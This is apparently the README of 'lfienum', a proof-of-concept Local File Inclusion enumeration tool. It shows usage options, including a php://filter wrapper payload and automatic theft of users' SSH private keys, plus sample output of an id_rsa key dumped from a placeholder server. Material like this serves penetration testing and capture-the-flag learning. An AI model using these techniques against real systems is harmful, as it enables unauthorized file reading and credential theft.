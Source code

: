 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

```zsh
Local File Inclusion Enumerator v1.0 by 0bfxgh0st*
Usage python3 lfienum <url> <option>

Options:

    --pid                Bruteforce 999 process id
    --wrapper            (php://filter/convert.base64-encode/resource=)
    -w or --wordlist     Use a custom wordlist
    -k or --key          Extract id_rsa key

Examples:

    python3 lfienum "http://ghost.server/index.php?page="
    python3 lfienum "http://ghost.server/index.php?page=" --pid
    python3 lfienum "http://ghost.server/index.php?page=" --wrapper index.php
    python3 lfienum "http://ghost.server/index.php?page=" --wordlist wordlist.txt
    python3 lfienum "http://ghost.server/index.php?page=" --key
```

Auto id_rsa key extraction from /etc/passwd, check `def IdRSA():` function  
Output example:  
```
...

> ghost id_rsa private key
dumped from http://ghost.server/index.php?page=/home/ghost/.ssh/id_rsa

[Response Code]: 200
[Content Lenght]: 1287

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDRScoSFO
Tk3d1A0K1kYCQzAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQC5SLRm3gjC
mXU6nHisg7VT0UxRTuoyL9IkiV9xPjdx44fTujyqsmjS+VjKyhGiTw+UB3jDZr81jCv4DO
WiwRc+A7PxnBA0qP1UU9OxuVaSgetSHCbjTNU4UlCPDBo2iZV2gw17CzuwGqa3Yz/UWoUV
KxKU+vMwO+evzUkL3w1LoAWKvWG0VfAdRh4rqXKsNDHoTdWBWLvLCx7PkBH8fF6+OIM+Lq
NM1tVQYuSHpAoNbj5bnGwLEt4Z8GqyZELdaNt8lc7XdO8YbAmPN/boyEZd9KRO/FdeuayE
yRQygxpz25goYGuj+Gdg3uQFEScDtYyUKwpsUsNDv1q0KOLWntT+5I8bHwME6ozqBBRba9
5K7kbCxLLwHxvN7E+dMFxH2e1J3uax1d/h5D1JNrJpi0KsFeycPL6Hr2StfNORRhdXEKGd
HudCjvhjRx27rAEwVBj/gcTS5Esu5sd0R5ToXb1ukT/lFhXjsW3qHYHexjbZQ7kSJPxJrg
KhOPkQ0YeBYzJzS9ffFjIZdTUBcLuE518rNKnKezPl7H9TNNnuHRgL/XycbrfUVWQVS+yo
aW6jjhykuO43zeiTNe/tyJUkBlJu5vs4xM1aDMSQW6fn2iVDrRbxY0lzq11fT59RbIQXzv
fL9B4SSMC6ccKVJlyYNLTZVpPyOonFvy6hThflpkhA/mGVgMvDyiwxLx/5+odvRRD7Gg0w
vyRsUY5/8RfNIZelJ731cwccRbbNfUmUbOcSG0yPMrBdGUldSwiqI9XyswM/goLzIKPC/7
UKQmKZ8oy7B5utVOW5aWqZCFe+shV8qPvaS/4bUaykQMdcFclbD22Pinwx6X6DHnGcmRtF
m+1QuC+jT23hAtJbqsafYQ61sUxkAQUExKdBQ+l7l6a0OZhG+L28P7xuQ7wwhhX6PpeKmD
HO1fvy1tu3wuQ9MAHGqMP+W2CJMVt3W4SvMasLIklPWDjy5iaii4WJkijIHopldyyL7wJ7
QRcxfhQ+4r+6virvZEo/2CkWtIhi8IcyPx6bQA54iu9eKkZE1gOdyDJogIrvkv+787rAlL
skyX2Q==
-----END OPENSSH PRIVATE KEY-----
```
Internal wordlist from sources:  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt  
